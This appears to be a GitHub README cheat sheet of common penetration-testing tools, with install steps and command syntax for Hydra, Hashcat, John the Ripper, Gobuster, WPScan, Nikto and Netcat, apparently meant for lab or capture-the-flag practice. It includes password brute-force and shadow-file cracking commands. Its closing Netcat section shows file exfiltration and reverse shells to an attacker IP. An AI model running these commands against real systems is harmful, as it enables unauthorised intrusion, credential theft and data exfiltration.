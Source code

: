 # Useful pentest tools
I am gathering and uploading useful pentest tools here.

### **Wordlists**
- [**SecLists**](https://github.com/danielmiessler/SecLists): a collection of multiple types of lists used during security assessments (usernames, passwords, URLs, sensitive data patterns, fuzzing payloads, web shells). In Kali you can install by:
```bash
sudo apt -y install seclists
```
- dirbuster wordlists from [OWASP DirBuster](https://www.kali.org/tools/dirbuster/). Follow [this instruction](https://saulenas.com/How-to-install-DirBuster-on-Linux/) to install in any Linux distros. Install in arch by using AUR (Arch User Repository):
```
yay -S dirbuster
```
<br/>

### [**Hydra**](https://github.com/vanhauser-thc/thc-hydra)
- brute-force attack (mainly dictionary attack) tool.
- Install:
```bash
git clone https://github.com/vanhauser-thc/thc-hydra ~/Downloads/thc-hydra && cd ~/Downloads/thc-hydra
./configure
make
make install
```
<br/>

- Syntaxes for running 50 tasks in parallel (-t50, default 16)
```bash
# Dictionary-attack on target port 22 SSH.
hydra -t50 -l <UserName> -P <wordList.txt path> -vV <target IP> ssh

# Dictionalry-attack on a specific pathName
hydra -t50 -l <UserName> -P /usr/share/wordlists/rockyou.txt <target IP> http-get "/pathName"    
```
<br/>

### [**Hashcat**](https://github.com/hashcat/hashcat)
- hashcat currently supports CPUs, GPUs, and other hardware accelerators on Linux, Windows, and macOS
```bash
# crack a MD5 hash 
hashcat -m 0 -a 0 008c5926ca861023c1d2a36653fd88e2 /usr/share/wordlists/rockyou.txt
hashcat -m 0 -a 0 008c5926ca861023c1d2a36653fd88e2 /usr/share/wordlists/rockyou.txt --show

# crack MD5 hahes from a list and output to cracked.txt
hashcat -m 0 -a 0 -o cracked.txt target_hashes.txt /usr/share/wordlists/rockyou.txt
cat cracked.txt
```
<br/>

### [**John the Ripper**](https://github.com/openwall/john)
-  advanced offline password cracker, which supports hundreds of hash and cipher types, and runs on many operating systems, CPUs, GPUs, and even some FPGAs.
```bash
# crack a MD5 hash using default wordlist
echo ecbdb882ae865a07d87611437fda0772 > hashValue.txt && john --format=raw-MD5 hashValue.txt
# or using your custom wordlist
echo 5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8 > hashValue.txt && john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-MD5 hashValue.txt
# if already cracked before
john --show --format=raw-MD5 hashValue.txt

# The "_/etc/shadow_" shows the hash value of the "x" in "_/etc/passwd_". You can crack the hash value by
sudo unshadow /etc/passwd /etc/shadow > unshadowed.txt && john unshadowed.txt && john --show unshadowed.txt
# Or you can use YourWordList.txt
john --wordlist=/usr/share/wordlists/YourWordList.txt --format=sha512crypt unshadowed.txt
```
<br/>

### [**fuzzdb** SQLi platform detection list](https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/sql-injection/detect/xplatform.txt)
- (for Burp Suite payload in intruder): brute force attack to get the server response status 200.
<br/>

### [**Gobuster**](https://github.com/OJ/gobuster)
- to brute-force URIs & DNS subdomains beside the [OWASP DirBuster](https://www.kali.org/tools/dirbuster/) tool
- adding target IP or URL to /etc/hosts if necessary to run gobuster
```bash
echo "10.10.200.xxx Target.com subdomain.Target.com" >> /etc/hosts

```
- brute-force using dirbuster wordlist using 30 concurrent threads (optional flag: -v verbose, -x fileExtensions)
```bash
gobuster dir -u https://TargetIP.com -w /usr/share/dirbuster/directory-list-2.3-medium.txt -x php,phtml,css,js,json,html,txt,py,sh -t30
```
- brute-force using SecLists subdomains to discover virtual hosts, then use dirbuster to find the _flag_ in there
```bash
gobuster vhost -u http://TargetWebsite.com -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t30

for vhost in subDomain1 subDomain2 subDomain3; do gobuster dir -u http://${vhost}.TargetWebsite.com -w /usr/share/dirbuster/directory-list-2.3-small.txt -x php,txt -t30 -o Output.txt ; done
```
<br/>

### [**WPScan**](https://github.com/wpscanteam/wpscan)
- black box WordPress vulnerability scanner. NOTE: You need to provide WPSan with an API Token so that it can look up vulnerabilities infos with https://wpvulndb.com. The free plan after registration allow 25 API requests a day.
- To install: _sudo apt update && sudo apt install wpscan_ for Debian/Ubuntu or _yay -S wpscan_ for ArchLinux, manually update by _wpscan --update_.
- Syntaxes to enumerte themes/plugins/userNames and brute-force passwords (flags: -t --max-threads, -o --output, -e --enumerate vpVulnerablePlugins apAllPlugins pPopularPlugins tPopularThemes uUserIDs, -P --passwords, -U --usernames, -v --verbose, --plugins-detection mixed/passsive/aggressive)
```bash
wpscan --url http(s)://<Target URL or IP address>
wpscan --url http(s)://<Target URL or IP address> --api-token <Generated_Token_from_your_login_profile>

wpscan --url <Target> --enumerate | tee Enumerate.txt
wpscan --url <Target> --usernames <FoundUserNames> --passwords <YourWordList.txt> | tee Credentials.txt
```
<br/>

### [**Nikto**](https://github.com/sullo/nikto)
- Scan web server for known vulnerabilities
```bash
nikto - h <target_IP> -p 80 -o nikto_results -F txt

nikto -id username:password -h <target_IP>:1234/path/
```
<br/>

### **Netcat**
- Most-used commands
```bash
# To transfer TargetFile from server to local  machine, first typing in local machine
nc -l -p 4444 > TargetFile
# then type in server
nc -w 3 Local_Machine_IP 4444 < TargetFile

# Netcat reverse shell, from attack_machine:
nc -lvp 4444
# from Linux target machine:
nc <attack_machine_IP> 4444 -e /bin/sh
# from Windows target machine:
nc.exe <attack_machine_IP> 4444 -e cmd.exe
```
